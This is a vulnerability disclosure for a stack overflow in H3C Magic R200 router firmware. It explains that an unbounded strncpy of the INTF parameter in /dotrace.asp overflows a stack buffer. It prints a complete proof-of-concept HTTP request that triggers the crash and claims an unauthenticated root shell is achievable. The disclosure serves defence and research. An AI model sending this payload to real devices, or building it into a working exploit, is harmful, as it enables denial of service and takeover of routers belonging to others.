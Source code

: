 # H3C magic R200 R200V200R004L02.bin  Stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202012/1361151_30005_0.htm

## Affected version

![image-20220624224706073](img/image-20220624224706073.png)

The figure above shows the latest firmware.

## Vulnerability details

![image-20220625220857220](img/image-20220625220857220.png)

 The strncpy function copies the data between "INTF=" and "&" into the  V10 array. Without limiting the size of the copy, the stack overflows. 

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware R200V200R004L02.bin
2. Attack with the following POC attacks

```
GET /dotrace.asp?HOST=www.baidu.com&INTF=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa& HTTP/1.1
Host: 192.168.124.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://192.168.124.1/maintain_diag.asp
Cookie: LOGIN_PSD_REM_FLAG=; PSWMOBILEFLAG=; LOGINCOUNT=; USERLOGINIDFLAG=
Upgrade-Insecure-Requests: 1
```

![image-20220624230619282](img/image-20220624230619282.png)

 The above figure shows the POC attack effect 

Finally, you can write exp, which can obtain a stable root shell without authorization

![image-20220625212843409](img/image-20220624231746994.png)

